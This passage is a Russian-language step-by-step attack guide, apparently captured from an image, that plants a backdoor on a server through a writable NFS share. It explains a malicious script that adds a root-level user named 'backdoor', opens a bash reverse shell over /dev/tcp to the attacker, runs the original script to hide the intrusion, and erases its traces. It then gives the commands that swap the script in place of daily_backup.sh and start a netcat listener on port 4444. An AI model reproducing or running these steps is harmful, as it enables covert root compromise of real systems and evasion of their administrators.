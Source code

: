 **Пояснения:**
1. **Добавление пользователя:**
   - `backdoor`: Имя пользователя
   - `\$6\$salt\$hash`: Хэш SHA-512 пароля с солью (например, `P@ssw0rd`)
   - `0:0`: UID и GID root
   - `/bin/bash`: Оболочка по умолчанию

2. **Обратный шелл:**
   - `bash -i`: Интерактивная оболочка
   - `>& /dev/tcp/...`: Перенаправление ввода/вывода в TCP-соединение
   - `0>&1`: Перенаправление stdin в stdout
   - `&`: Запуск в фоновом режиме

3. **Маскировка:**
   - Выполнение оригинального скрипта скрывает факт атаки
   - Администратор не заметит сбоя в работе

4. **Скрытие следов:**
   - Удаление вредоносного скрипта
   - Восстановление оригинального имени файла

---

#### Шаг 5: Подмена системного скрипта
> Заменить легитимный скрипт на вредоносный.
```bash
# Переименование оригинального скрипта
sudo mv /mnt/nfs_scripts/daily_backup.sh /mnt/nfs_scripts/daily_backup.sh.orig

# Активация бэкдора
sudo mv /mnt/nfs_scripts/evil_backdoor.sh /mnt/nfs_scripts/daily_backup.sh
sudo chmod +x /mnt/nfs_scripts/daily_backup.sh

# Проверка результата
ls -l /mnt/nfs_scripts/daily_backup.sh
# Вывод:
# -rwxr-xr-x 1 root root 485 Jun 15 13:00 daily_backup.sh
```

**Пояснения:**
1. `mv`: Переименование файлов
2. `chmod +x`: Установка права на выполнение (обязательно для скриптов)
3. Последовательность действий:
   - Сохранить оригинальный скрипт как резервную копию
   - Переименовать вредоносный скрипт в имя оригинального
   - Установить те же права доступа

---

#### Шаг 6: Ожидание и получение доступа
> Получить контроль над сервером при срабатывании скрипта.
```bash
# На атакующей машине запуск netcat для прослушивания порта
nc -nvlp 4444
```
